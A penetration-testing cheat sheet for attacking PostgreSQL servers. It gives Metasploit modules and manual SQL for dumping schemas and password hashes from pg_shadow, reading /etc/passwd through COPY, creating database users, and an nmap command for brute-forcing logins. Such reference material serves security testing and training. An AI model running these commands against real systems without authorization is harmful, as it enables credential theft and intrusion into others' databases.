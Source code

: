 # PostGreSQL

## Enumeration using metasploit

### Determining Version of PostGreSQL Server

Metasploit can be used to determine the version of a PostGreSQL server using the following auxiliary module:

`use auxiliary/scanner/postgres/postgres_version`

### Dumping Database Schema

Setting the RHOST value to the target server and using the following auxiliary module:

`use auxiliary/scanner/postgres/postgres_schemadump`

### Create a database user 

Setting the RHOST value to the target server and using the following auxiliary module:

`use auxiliary/admin/postgres/postgres_sql`

`set SQL CREATE USER <username>;`

### Dump PostGreSQL Usernames and Password Hashes

Setting the RHOST value to the target server and using the following auxiliary module:

`use auxiliary/scanner/postgres/postgres_hashdump`

### Read Local File

The following auxiliary module can be used to read a file from the local file system:

`use auxiliary/admin/postgres/postgres_readfile`

`set RFILE /path/to/file.txt`

`set RHOSTS <IP>`

## Manual Enumeration

### Read Local file

1) Connect to the postgres database 

`psql -h <IP> -U <username> -W`

2) Create a new table to store the contents of the file:

`CREATE TABLE tablename(t TEXT);`

3) Copy the contents of the file into table:

`COPY tablename FROM '/etc/passwd';`

4) Show the contents of the file stored within the table "tablename"

`SELECT * FROM tablename limit 30 offset 0;`

### Dump PostGreSQL Database Usernames and Password Hashes

`select usename, passwd from pg_shadow;`

## Bruteforcing Login Passwords

### Bruteforcing using Hydra

[Hydra PostGres Bruteforce](../password-cracking/hydra.md#postgresql-database-login)

### Bruteforcing with NMAP

The nmap NSE script "pgsql-brute" can be used to bruteforce postgres database login credentials using the following command:

`nmap -p 5432 --script pgsql-brute --script-args userdb=<username_list.txt>,passdb=/path/to/password_wordlist.txt <IP_ADDRESS>`
